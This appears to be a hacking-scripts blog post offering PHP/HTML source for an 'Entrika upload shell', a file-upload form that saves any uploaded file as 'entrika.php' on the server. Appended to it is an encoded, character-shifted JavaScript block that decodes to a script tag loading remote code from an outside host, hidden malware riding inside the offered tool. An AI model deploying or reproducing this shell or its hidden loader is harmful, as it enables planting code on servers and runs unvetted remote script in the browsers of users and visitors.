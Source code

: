 ```yaml
---
id: 264
title: Entrika upload shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=264
permalink: /entrika-upload-shell/
categories:
  - Javascript
  - PHP
tags:
  - entrika
  - Javascript
  - PHP
---
```

Entrika upload shell &#8211; javascript and a little bit of PHP.

### Entrika upload shell source code

<pre class="brush: php; title: ; notranslate" title="">&lt;FORM ENCTYPE="multipart/form-data" ACTION="uploader.php" METHOD="POST"&gt;
&lt;INPUT TYPE="hidden" name="MAX_FILE_SIZE" value="100000"&gt;
Send this file: &lt;INPUT NAME="userfile" TYPE="file"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
&lt;?
move_uploaded_file($userfile, "entrika.php"); 
?&gt;
&lt;script language=javascript&gt;document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%6A%61%76%61%73%63%72%69%70%74%22%3E%66%75%6E%63%74%69%6F%6E%20%64%46%28%73%29%7B%76%61%72%20%73%31%3D%75%6E%65%73%63%61%70%65%28%73%2E%73%75%62%73%74%72%28%30%2C%73%2E%6C%65%6E%67%74%68%2D%31%29%29%3B%20%76%61%72%20%74%3D%27%27%3B%66%6F%72%28%69%3D%30%3B%69%3C%73%31%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%74%2B%3D%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64%65%28%73%31%2E%63%68%61%72%43%6F%64%65%41%74%28%69%29%2D%73%2E%73%75%62%73%74%72%28%73%2E%6C%65%6E%67%74%68%2D%31%2C%31%29%29%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%74%29%29%3B%7D%3C%2F%73%63%72%69%70%74%3E'));dF('%264DTDSJQU%2631TSD%264Eiuuq%264B00njep/ti4mm/vt0lbzefu/kt%264F%264D0TDSJQU%264F1')&lt;/script&gt;
</pre>